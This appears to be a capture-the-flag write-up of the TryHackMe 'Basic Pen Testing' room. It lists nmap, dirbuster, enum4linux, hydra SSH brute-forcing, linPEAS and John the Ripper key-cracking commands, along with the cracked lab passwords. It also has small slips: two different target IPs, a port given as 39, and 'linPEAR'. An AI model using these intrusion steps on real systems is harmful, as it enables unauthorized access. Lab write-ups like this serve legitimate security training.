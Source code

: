 # Matheus Jesus 31-03-2020

## Try Hack Me - [Basic Pen Testing](https://tryhackme.com/room/basicpentestingjt)

### IP 10.10.236.222

#### 1. Net Scan

nmap -sC -sV -oN nmap_initial 10.10.73.27

* Open Ports

```text
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
39/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

##### WEB SERVICE ON http://10.10.73.27

##### Find webservice Routes

dirbuster -r dirbuster_initial.txt -u http://10.10.73.27
with list /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

Found **/development** route

/development/dev.txt

```text
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

/development/j.txt

```text
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

#### 2. SMB Find Users

Try to find username through SMB application layer
enum4linux -a 10.10.73.27 | tee enum4linux.log
Users found

```text
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

#### 3. Brute Force Password

Brute Force Jan's password through SSH Hydra
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.73.27

```text
[22][ssh] host: 10.10.73.27   login: jan   password: armando
```

#### 4. Access Jan User

Login jan user with ssh jan@10.10.73.27

* access /home/kay
* found a pass.bak file

#### 5. Privilege Escalation

Get Privilege Escalation exploits

using linPEAS
Copy script over to the machine
scp /opt/linPEAR/linpeas.sh jan@10.10.73.27:/dev/shm

#### 6. RSA Certificate Cracking

Under /home/kay
there is a hidden folder .ssh
inside there is it's RSA certificate 

use John The Ripper
https://github.com/magnumripper/JohnTheRipper

/run/ssh2john.py RSA > forjohn.txt
/run/john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt

Found password  **beeswax** for user Kay

#### 7. Access Kay User

access kay user
ssh -i kay_rsa kay@10.10.73.27
password beeswax

ls to pass.bak
cat pass.bak

DONE!!!
